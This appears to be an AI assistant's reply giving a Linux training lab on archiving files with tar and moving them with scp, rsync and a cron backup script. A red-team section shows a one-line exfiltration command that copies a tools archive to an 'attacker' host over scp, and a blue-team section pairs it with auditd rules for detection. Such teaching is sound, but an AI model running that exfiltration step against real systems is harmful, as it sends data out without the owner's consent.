 Excellent, Shahid.
Here is the **Cybersecurity Documentation Protocol Ultra v5.0 – Master Grade Edition** lab documentation for:

# 🧪 **Lab: Archive and Transfer Files**

*Module 13 – Archive and Transfer Files*
*Linux Essentials Level 3*
--------------------------

## 🔰 Introduction

This lab integrates the key skills from the entire module:

* **Archiving** files using `tar`
* **Compressing** using `gzip`, `bzip2`, `xz`
* **Transferring securely** using `scp`, `rsync`, `sftp`
* Simulating real-world **backup**, **tool delivery**, and **forensic transfer** workflows

> 🧠 *Goal*: Build, compress, and securely transfer archives between systems using best practices, automation, and detection-aware methods.

---

## 🧱 Lab Environment

| System | Role        | IP Address       |
| ------ | ----------- | ---------------- |
| RHEL1  | Source host | `192.168.56.101` |
| RHEL2  | Remote host | `192.168.56.102` |

🛠️ Ensure:

* SSH is enabled on both systems: `sudo systemctl start sshd`
* SSH key auth is configured or password login is allowed

---

## 🔧 Lab Tasks

### 🔹 **Task 1: Create and Compress an Archive**

1. **Prepare files**:

   ```bash
   mkdir -p ~/project_logs/{web,db}
   echo "Web Log" > ~/project_logs/web/web.log
   echo "DB Log" > ~/project_logs/db/db.log
   ```

2. **Create `.tar.gz` archive**:

   ```bash
   tar -czvf logs_project.tar.gz ~/project_logs
   ```

3. **Verify archive**:

   ```bash
   tar -tzf logs_project.tar.gz
   ```

---

### 🔹 **Task 2: Securely Transfer Archive to Remote Host**

**Using `scp`**:

```bash
scp logs_project.tar.gz user@192.168.56.102:/home/user/
```

✅ Confirm on RHEL2:

```bash
ssh user@192.168.56.102 'ls -lh ~/logs_project.tar.gz'
```

---

### 🔹 **Task 3: Extract the Archive on Remote Host**

On RHEL2:

```bash
tar -xzvf ~/logs_project.tar.gz -C ~/restored_logs
```

✅ Verify:

```bash
ls ~/restored_logs/project_logs/web
```

---

### 🔹 **Task 4: Use `rsync` for Differential Sync**

Modify a file:

```bash
echo "Web Log - Updated" >> ~/project_logs/web/web.log
```

Now sync changes:

```bash
rsync -avz ~/project_logs/ user@192.168.56.102:~/restored_logs/project_logs/
```

✅ Confirm on RHEL2:

```bash
ssh user@192.168.56.102 'cat ~/restored_logs/project_logs/web/web.log'
```

---

### 🔹 **Task 5: Automate Archive + Transfer (Bonus)**

Create a script `~/scripts/backup_and_send.sh`:

```bash
#!/bin/bash
DATE=$(date +%F)
tar -czf ~/logs_backup_$DATE.tar.gz ~/project_logs
scp ~/logs_backup_$DATE.tar.gz user@192.168.56.102:/home/user/backups/
```

Make it executable:

```bash
chmod +x ~/scripts/backup_and_send.sh
```

Schedule via cron:

```bash
crontab -e
0 2 * * * ~/scripts/backup_and_send.sh
```

---

## 🔴 Red Team Simulation: Archive and Exfiltrate Tools

On RHEL1:

```bash
tar -czf tools.tar.gz ~/tools/
scp tools.tar.gz attacker@192.168.56.200:/tmp/
```

🧩 **MITRE ATT\&CK**:

* **T1560.001**: Archive Collected Data
* **T1048.002**: Exfiltration Over SSH

---

## 🔵 Blue Team Simulation: Detection Logic

### Monitor `tar` and `scp` Usage

**Auditd Rules**:

```bash
auditctl -w /usr/bin/tar -p x -k tar-monitor
auditctl -w /usr/bin/scp -p x -k scp-monitor
```

**Syslog Sample**:

```plaintext
type=EXECVE msg=audit(...): a0="tar" a1="-czf" a2="tools.tar.gz"
type=EXECVE msg=audit(...): a0="scp" a1="tools.tar.gz" ...
```

---

## 📘 Evaluation Criteria

| Step | Task                             | Check              |
| ---- | -------------------------------- | ------------------ |
| ✅    | Created and compressed archive   | `tar -czf` used    |
| ✅    | Transferred with `scp`           | File on remote     |
| ✅    | Extracted successfully           | Files readable     |
| ✅    | Synced with `rsync`              | Deltas applied     |
| ✅    | Bonus script written & scheduled | Cron entry created |

---

## 📓 Journaling & Reflection

* 📅 *Date Completed*: `__________`
* 🔍 *Which tool was most efficient?* `scp / rsync / sftp`
* ⚠️ *Any mistakes or surprises?* `_______________________`
* 🛡 *What would you monitor as a Blue Team operator?*
  `___________________________________________________`
* 🎯 *Confidence (1–5)*: `__`

---

## 🧭 Job & Certification Mapping

| Role        | Applied Skill                | Certification |
| ----------- | ---------------------------- | ------------- |
| SOC Analyst | Detect archive transfers     | CEH, CompTIA+ |
| Linux Admin | Automate secure backups      | RHCSA         |
| Pentester   | Archive & deliver payloads   | OSCP          |
| IR Analyst  | Detect `scp` + `tar` in logs | GCFA          |

---

## 🧠 Spaced Repetition Plan

* **Day 1**: Rebuild lab from scratch (archiving, transfer, extract)
* **Day 3**: Automate script with cron + test detection
* **Day 7**: Simulate attacker exfiltration, tune detection
* **Day 30**: Document SOP + teach peer the full workflow

---

✅ **Lab Completed: Archive and Transfer Files**

Let me know the **next lesson** or lab you’d like to work on in Module 13.
